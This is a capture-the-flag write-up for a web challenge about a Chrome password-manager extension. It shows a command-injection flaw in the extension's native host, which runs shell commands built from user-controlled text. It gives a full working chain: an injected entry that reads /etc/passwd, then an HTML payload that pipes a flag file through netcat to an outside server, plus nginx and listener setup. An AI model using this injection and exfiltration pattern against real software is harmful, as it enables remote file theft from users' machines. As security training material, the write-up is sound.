



# FirstFail

## Challenge
* Category: Web Security
* Points: 400

We are devloping a new secure password manager! Test it out here: http://challenge.acictf.com:62110

### Hints
* Does the password manager page perform any insecure actions?
* Try to create a new entry directly


## Solution

### Tools
* Chrome
* External Server ([droplet](https://cloud.digitalocean.com/))
* nginx
* netcat


Wow, I was lost on this challenge. I downloaded the password manager archive and started going over its code.


I had to follow [flakjacket95's](https://github.com/flakjacket95/cyberstakes_2020/tree/master/web/first_fail) writeup and still managed to get lost. Full credit to [flakjacket95](https://github.com/flakjacket95/cyberstakes_2020/tree/master/web/first_fail) for putting together an awesome approach that solves this challenge. So go over to their writeup and give it a try. This writeup is going to follow the same approach, but I'll try to provide a lot of details in areas I was stuck.

I usually avoid doing anything for CTF's on my host. I typically live in VM's. This challenge was no different. The challenge is going to have us install a browser plugin that acts as a password manager for websites. I started in a [Ubuntu 20.04 Desktop](https://ubuntu.com/download/desktop) virtual machine.

I needed to install chrome in Ubuntu. So open the browser and go to https://www.google.com/chrome/ and click `Download Chrome`. Select the `.deb` distribution for Ubuntu and Click `Save As`. Now open a terminal, and go to your downloads folder.

```
$ cd ~/Downloads
$ sudo apt-get update
$ sudo dpkg -i google-chrome-stable_current_amd64.deb
```

Next, we need to install the chrome plugin and see what it does. I screwed this up by using the system-wide path. **DO NOT TO THAT**. If installed to the system-wide path, the program and your injects will error because it is trying to write to the `data/challenge.acictf.com\:62110` file in a directory it does not have permission. You will not know where in the program it's failing because logging is set to `/dev/null` in the python `host.py` script. Once I changed logging to a local file I was able to determine my plugin install was the bane of my problems. So let's start by getting the plugin installed the correct way.

#### Install the Plugin

Go to the [challenge website](http://challenge.acictf.com:62110) and you will see 5 steps for setting up the plugin.



##### 1. Download and extract the chromium plugin

This is easy. Download the plugin from http://challenge.acictf.com:62110/secure_password_manager.tar.gz and save it somewhere like a folder called `fastfail` on your desktop. Extract the plugin with the following commands.

```
$ cd fastfail
$ tar xzvf secure_password_manager.tar.gz
```

##### 2. Navigate to the extracted plugin directory and run ./install.sh to install the RPC

Ok. They tell us what directories to use (or registry if you are on Windows). So open a browser tab and go to https://developer.chrome.com/apps/nativeMessaging#native-messaging-host-location

Since we are using `chrome` on linux, our path is `~/.config/google-chrome/NativeMessagingHosts`. Open a terminal or text editor and update the paths in the `install.sh` script.

```
$ cd plugin
$ vim install.sh
```

Comment-out/remove the path and variable, and update it with our correct information.

```
# mkdir -p ~/.config/chromium/NativeMessagingHosts/
# NHPATH=~/.config/chromium/NativeMessagingHosts/
mkdir -p ~/.config/google-chrome/NativeMessagingHosts/
NHPATH=~/.config/google-chrome/NativeMessagingHosts/
```

Now run the install script with the `$ ./install.sh` command.

##### 3. Enabled extension developer mode in chromeium

This is quick and simple. In your chrome browser click the three dots for the dropdown. Select `More tools` > `Extensions`. Now in the upper right corner, toggle the `Developer Mode` button.


##### 4. Click "Load Unpacked Extension" and navigate to the uncompressed plugin directory

This one is self explanatory. Click the `Load Unpacked Extension` button and browse to the `plugin` directory. Then click `open`.



##### 5. Restart chromium

Restart chrome. Every-time I made a change to the plugin I removed it and then reloaded it into chrome. This may have not been necessary. You may be able to just restart chrome.

Test the plugin by browsing to the test page. http://challenge.acictf.com:62110/example

You should see the message in green letters that you successfully installed the plugin.



Click the `Login` button and we are given the location of the flag on the admin's server.

```
Cools the plugin works!
However the admin has your flag is in /opt/problems/firstfail_5_450fdfd666ac398f344740a22e24c2a0/flag.txt
We want to test the plugin even more! Give us a url to visit!
```

Remember the URL to give the admin a website to visit (http://challenge.acictf.com:62110/dovisit). We will use this later.

#### Analyze the Plugin

Hopefully you read [flakjacket95's analysis](https://github.com/flakjacket95/cyberstakes_2020/tree/master/web/first_fail#analysis) of the plugin. There is an important vulneraiblity in the `host.py` code.

```python
def get_entries(pattern):
    try:
        res = subprocess.check_output('cat data/'+pattern, shell=True)
        return res.decode('latin-1').strip().split('\n')
    except Exception as e:
        logging.exception(str(e))
        return []
```

Look at the line `res = subprocess.check_output('cat data/'+pattern, shell=True)`. What is occurring here is python is calling [subprocess](https://docs.python.org/3/library/subprocess.html), which can be used to run shell commands. In this case, the shell is going to `cat` the contents of the `data/challenge.acictf.com\:62110` file. Now, currently the contents of that file are `username="testuser",password="testpassword"`, but what if we were able to inject some code into that file. We could potentially extract the contents of the flag file via this command.

That raises a second question. How can we inject commands into the `data/challenge.acictf.com\:62110` file? The `host.py` script has an `if` statement that calls a `store_entry()` function.

```python
if msg['type'] == 'add_entry':
    store_entry(msg['host'],msg['entry'])
    return None
```

The `store_entry()` function simply opens the file in the `data` directory matching the `host` name.

```python
def store_entry(host, entry):
    host = host.replace('/','')
    with open(os.path.join('data',host), 'a') as f:
        f.write(entry+'\n')
```

So all we have to do is control a `POST` to the plugin where we are able to set in the message `type = add_entry`, `host = challenge.acictf.com:62110` and then the `entry` will contain our payload. Typically, `entry` would be `username="testuser",password="testpassword"`, but there is no validation, so we can inject into these fields.


Remember the challenge gave us an endpoint (http://challenge.acictf.com:62110/dovisit) where we could give the site admin a website to checkout and validate the plugin. We are assuming the admin is running the plugin in their browser, just like we are. So now the theory is that if we control that website and the code that loads on that website, we can potentially control what calls are made to the plugin, as well as the parameters in the message.

#### Approach
1. Test get_entries function for executing commands.
2. Build payload
3. Setup external listener and website carrying payload
4. Get website admin to give us the flag


#### 1. Test get_entries() function for executing commands.

To start, let's prove that we can execute javascript within the `data/challenge.acictf.com\:62110` file. Go to the plugin's `NativeMessagingHosts` and edit the host file.

```
$ cd ~/.config/google-chrome/NativeMessagingHosts
```
Edit the host file.
```
$ vim data/challenge.acictf.com\:62110
username=console.log('hello world'),password="test"
```

Re-Open your chrome browser so we reload the plugin and browse to `http://challenge.acictf.com:62110/example` and then open the plugin `chrome-extension://cegaaaajnnledpnkmnjenhbakdijgcjo/manager.html`. Right-Click > Inspect this page. Go to the `console` tab and you should see `hello world` in the output.

Ok. Let's test that we can use the plugin to access a file in the filesystem. This time, edit your `data/challenge.acictf.com\:62110` file with a payload that outputs the contents of a file into a local file we will create.

```
$ vim data/challenge.acictf.com\:62110
username=port.postMessage({type: 'entries',pattern: '; cat /etc/passwd >> output.txt'}),password="test"
```

Let's explain the above inject. This is where knowledge of [Message Passing](https://developer.chrome.com/extensions/messaging) in chrome extensions comes in handy. Read the previous link. `port.postMessage({})` enables Communication between extensions and their content scripts. Here we control the `type` by calling `entries`. Then we break into the message and start our inject with `';`. Remember when we discussed `subprocess` above? Well this is where it is executing our shell command `cat`. We simply `cat` the contents of `/etc/passwd` into another file, which should be outputted within the plugin path.

Go ahead and Re-Open your chrome browser and browse to `http://challenge.acictf.com:62110/example` and then open the plugin `chrome-extension://cegaaaajnnledpnkmnjenhbakdijgcjo/manager.html`. Now check to see if there is a `output.txt` file in the `NativeMessagingHosts` directory.

```
$ cat output.txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Cool. So we can access files. We should be able to follow this approach for accessing the flag file at `/opt/problems/firstfail_5_450fdfd666ac398f344740a22e24c2a0/flag.txt` on the admin's system. We just need to build a payload that will give us the flag when the admin accesses it.

#### 2. Build payload

So our payload is going to be some malicious javascript we host on our own web server. That way when the admin reaches out to our website to test the plugin, it renders the flag for us.

We can just copy the http://challenge.acictf.com:62110/example website and modify the `<script>` block toward the bottom. We will replace the original `} else {` statement with our payload. Let's break down the payload a bit.

We are using [window postMessage](https://davidwalsh.name/window-postmessage) to send data from the browser to the app. Above we discussed the need to control the message type. Here we establish the `type` as `add_entry` and the `host` as `challenge.acictf.com:62110`. Now the `add_entry` function will append a new entry to the `data/challenge.acictf.com\:62110` file. Notice we are piping `|` the contents of the `cat` command to `nc 165.227.198.232 1337`. We are having the admin's browser perform a call out to the server we control on port `1337` with the contents of the flag.txt file when the password manager extension page is opened in a new tab by the `window.PasswordManager.openManager()` part of the script.

```html
<html>
  <body>
    <h1>Test page for Secure Password Manager</h1>
    <p>This page lets you test the password manager. Once you have it working, you can use it to log in below and continue on.</p>
    <div id="notice"></div>
<form>
  <input type="text" name="username" placeholder="Username"><br/>
  <input type="password" name="password" placeholder="Password"><br/>
  <button>Login</button>
</form>

Cools the plugin works!<br> However the admin has your flag is in <code>/opt/problems/firstfail_5_450fdfd666ac398f344740a22e24c2a0/flag.txt</code><br/>
We want to test the plugin even more! <a href="/dovisit">Give us a url to visit!</a>

    <script>
      window.onload = function() {
        if (window.PasswordManager === undefined) {
          document.getElementById('notice').innerHTML = `<h2 style="color:red">You do no have Secure Password Manager installed...</h2>`;
        } else {
          Promise.race([window.PasswordManager.ping(), new Promise((resolve, reject) => {setTimeout(reject,1000);})]).then((r)=>{
            window.postMessage({
              type:'add_entry',
              host:"challenge.acictf.com:62110",
              entry:"username=port.postMessage({type: 'entries',pattern: '; cat /opt/problems/firstfail_5_450fdfd666ac398f344740a22e24c2a0/flag.txt | nc 165.227.198.232 1337'}),password=\"test\""
            }).then(function() {console.log('done')})
          }).catch(()=>{
            window.PasswordManager.openManager()
            document.getElementById('notice').innerHTML = `<h2 style="color:red">You have the plugin installed, but the RPC is not installed correctly...</h2>`;
          });
        }
      }
    </script>
  </body>
</html>
```

You will need to replace my IP `165.227.198.232` with that of your droplet or whatever server you control. You will also need to replace the path to the flag.txt file with your own.

#### 3. Setup external listener and website carrying payload

Ok. You do not have to use a droplet at ([digitalocean](https://cloud.digitalocean.com/)). I am using one because it's easy to setup and I put in a firewall rule restricting access to only my testing host and the challenge.acictf.com `160.1.153.245/32` on ports `80` and `1337`.

I'm not going to detail how to set up a droplet. I built a `Ubuntu 18.04 LTS`, `$5/mo` droplet. I burned it down after this challenge. I will detail setting up the website carrying our payload.

Once you have ssh'd into your droplet. Install and setup `nginx`.

```
$ sudo apt-get update
$ sudo apt-get -y install vim nginx
```

Lets setup our web directory

```
$ mkdir -p /var/www/mysite/html
$ chmod -R 755 /var/www/mysite/html
```

Now copy the HTML from [index.html](./mysite/index.html) into the index.html on our server.
```
$ vim /var/www/mysite/html/index.html
```

Now we need to tell `nginx` to use our website.

```
$ vim /etc/nginx/sites-available/mysite
```

Paste the following:

```
server {
        listen 80;
        listen [::]:80;

        root /var/www/mysite/html/;
        index index.html;

        server_name 165.227.198.232;

        location / {
                try_files $uri $uri/ =404;
        }
}
```

Link the mysite to `sites-enabled` and restart `nginx`

```
$ ln -s /etc/nginx/sites-available/mysite /etc/nginx/sites-enabled/
$ rm /etc/nginx/sites-enabled/default
$ systemctl restart nginx
```

Now we just need to setup a listener on port `1337`. So our payload is using netcat `nc` to call out to our listener, but we can also use netcat to setup the listener. SANS has a good [cheat sheet](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf) on netcat. the `-l` flag means `listen mode` and the `-p` followed by a number is the local port to listen on. 

```
nc -l -p 1337
```

Now that our website is setup with a payload and we are listening for connections, all we have to do is have to website admin call out to us and run the plugin.

#### 4. Get website admin to give us the flag

To get the admin to give us the flag, we just need them to go out our web server. Browse to http://challenge.acictf.com:62110/dovisit. There is a submission box. Go ahead and put in `http://165.227.198.232`and click `Visit!`.

The admin will visit our page and then render their plugin manager page. In a minute or so you should see the text `We successfully visited this URL!`. Go ahead and check the terminal running the `nc` command.

```
# nc -l -p 1337
ACI{e4412f26d1dc758d9a85f951561}
```

**ACI{e4412f26d1dc758d9a85f951561}**
